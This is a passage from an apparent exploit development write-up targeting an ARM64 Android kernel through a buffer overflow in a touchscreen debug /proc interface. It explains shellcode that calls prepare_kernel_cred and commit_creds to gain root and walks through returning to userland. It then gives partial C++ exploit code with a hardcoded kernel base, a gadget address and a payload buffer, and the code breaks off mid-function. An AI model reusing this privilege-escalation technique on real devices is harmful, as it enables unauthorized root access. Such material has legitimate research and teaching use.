 The code works as follows:

1. Move 0x0 into `x0`. ARM64 specifies that `x0` will always hold the first argument when a function is called. We want the argument passed to `prepare_kernel_cred` to be NULL, which is equivalent to 0x0
2. Load the address of `prepare_kernel_cred` into `x2` and branch to it
3. The return value of `prepare_kernel_cred` is a pointer to the newly created credential. ARM64 specifies that all return values will be passed back to the callee in `x0`. This works out for us, because the next step is to call `commit_creds` with a pointer to our cred argument in `x0`. Thus we don't have to do anything when `prepare_kernel_cred` returns
4. Load the address of `commit_creds` into `x4` and branch to it.

After this, we need to switch out of supervisor mode and cleanly return to userland. This is where things became significantly less straightforward. A few things need to happen:

1. We need to specify what address to return to
2. We need to restore the userland stack pointer
3. We need to set saved program status registers

The good news is that because `x21` consistently holds a pointer into our user-controlled data, we can pass a userland stack pointer and userland return value via our buffer overflow payload. 

To debug this, we will compile the above shellcode which doesn't yet return from supervisor mode. We will make the last instruction `0x41414141`, causing a kernel panic and allowing us to dump the register states. Our exploit payload will include a bogus stack pointer and the address of the function we wish to return to. We can then review the kernel panic logs in order to determine the offsets and finish out our shellcode. In all, our exploit functions look as follows:

```cpp
#include <stdio.h>  
#include <string.h>  
#include <stdlib.h>  
#include <iostream>  
#include <fcntl.h>  
#include <unistd.h>  
#include <sys/stat.h>  
#include <sys/types.h>  
#include <unistd.h>  
#include <sys/mman.h>  
#include <sys/types.h>  
#include <sys/wait.h>  
#include <spawn.h>  
  
uint64_t kernel_base = 0xFFFFFFC000080000ULL;  
uint64_t blr_x21 = 0x000000000001e664ULL + kernel_base;  
uint64_t nop = 0xd503201fd503201f;  
uint64_t junk = 0x4242424242424242ULL;  
  
static int win() {  
  puts("[+] Returned from supervisor mode\n");  
  char *argv[] = { "busybox1.11", "touch", "/data/local/tmp/test.txt", NULL };  
  char *envp[] = { NULL }; 
  puts("[!] Win\n")
  execve("/system/bin/busybox1.11", argv, envp); 
  return 0;  
}  
  
  
  
static int exploit() {  
  int fd;  
  fd = open("/proc/ftxxxx-debug", O_RDWR);  
  unsigned char buf[4096];  
  memset(buf, 0x41, 1);  
  memset(buf+1, 0x0, 1023);  

```